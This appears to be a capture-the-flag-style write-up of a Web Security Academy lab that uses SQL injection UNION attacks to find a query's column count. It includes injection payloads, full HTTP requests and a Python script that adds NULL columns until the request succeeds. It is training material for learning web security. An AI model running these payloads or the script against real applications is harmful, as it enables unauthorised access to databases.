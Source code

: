 # SQL injection UNION attack, determining the number of columns returned by the query

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/

## Sitemap:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/

![](./Images/Siemap0.png)


URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Food+%26+Drink

![](./Images/Siemap1.png)


URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/product?productId=3

![](./Images/Siemap2.png)

<br>

<br>

## SQL Injection Identification:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Food+%26+Drink'

![](./Images/Id0.png)

## Exploitation:

### Get all items:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category=Gifts'+or+1%3d1--

Payload:

```
GET /filter?category=Gifts'+or+1%3d1-- HTTP/2
```

Request:

```
GET /filter?category=Gifts'+or+1%3d1-- HTTP/2
Host: 0a0100ab0418134780f1ee910062003f.web-security-academy.net
Cookie: session=afxfM9TaL2uC7GKcx9iE6swIVmRUZbJm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers


```

![](./Images/expl0.png)

### Find len of columns:

URL: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL,NULL--

Payload:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
```

Request:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL-- HTTP/2
Host: 0a0100ab0418134780f1ee910062003f.web-security-academy.net
Cookie: session=afxfM9TaL2uC7GKcx9iE6swIVmRUZbJm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0100ab0418134780f1ee910062003f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers


```


## Exploit:

```python
#!/usr/bin/python3
##
import requests
import re
import pwn
##
def fuzz(URL):
    Payload1="'+UNION+SELECT+"
    Payload2="--"
    padding="NULL"
    send=URL+Payload1+padding+Payload2
    r=requests.get(send)
    while(r.status_code!=200):
        padding+=",NULL"
        send=URL+Payload1+padding+Payload2
        r=requests.get(send)
    return r
##
def main(URL):
    URL1=URL+"/filter?category="
    print(URL1)
    r=fuzz(URL1)
    print(r.url)
    print(r.status_code)
    #print(r.text)
##
main('https://0ad700ce048098a28159e45000970007.web-security-academy.net')
```

